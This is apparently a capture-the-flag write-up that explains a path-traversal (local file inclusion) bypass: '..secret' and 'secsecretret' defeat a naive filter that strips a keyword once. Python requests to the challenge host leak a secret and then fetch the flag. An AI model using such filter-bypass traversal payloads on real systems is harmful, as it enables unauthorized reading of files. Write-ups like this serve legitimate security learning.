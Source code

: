 Challenge author: t0m7r00z

This task introduces LFI, our goal is to read this file **billet_task/secret_1337_sh1t/secret_word.txt**

and we'll be doing so by exploiting this line.

```python
first_search = os.path.join(os.getcwd(), "registres", *reg).replace("secret", "") 

# There are two things that we care about.
# First it unpacks the reg value which means if I pass in a list ["a", "b"]
# The path becomes os.getcwd()/registres/a/b
# And the other thing is replace("secret", "") and we'll be seeing why later
```
The file we need is at **os.getcwd()/billet_task/secret_1337_sh1t/secret_word.txt** but it joins our input to **os.getcwd()/registres** so how can we read it?

**First:** We want to leave registres folder and read from billet_task but we can't use **..** because of this

```python
if ("/" in reg) or (".." in reg):
    data = "Je vois des trucs interdits ici."
```

This is when we exploit ```.replace("secret", "")``` by giving it **..secret** it will automatically bypass the filter and then remove "secret".


**Second:** Now we want to read secret_1337_sh1t/secret_word.txt but the problem is that "secret" get's replaced with "", BUT ONLY ONCE!

Solution: **sec**secret**ret**_1337_sh1t/**sec**secret**ret**_word.txt

So our payload becomes as follows:

```["..secret", "billet_task", "secsecretret_1337_sh1t", "secsecretret_word.txt"]``` 


```python
r = requests.post("https://infreezy.pythonanywhere.com/get_registre", json={"registre":["..secret","billet_task", "secsecretret_1337_sh1t", "secsecretret_word.txt"]})
print(r.text)
# s3c5e7_1337_f@k1ng_m3s5Ss4ge
```
All that is left to do is to access /get_billet?secret=s3c5e7_1337_f@k1ng_m3s5Ss4ge

```python
with open("flag.png","wb") as file:
    r = requests.get("https://infreezy.pythonanywhere.com/get_billet?secret=s3c5e7_1337_f@k1ng_m3s5Ss4ge")
    file.write(r.content)
```

![](../Rev/images/flag.png)
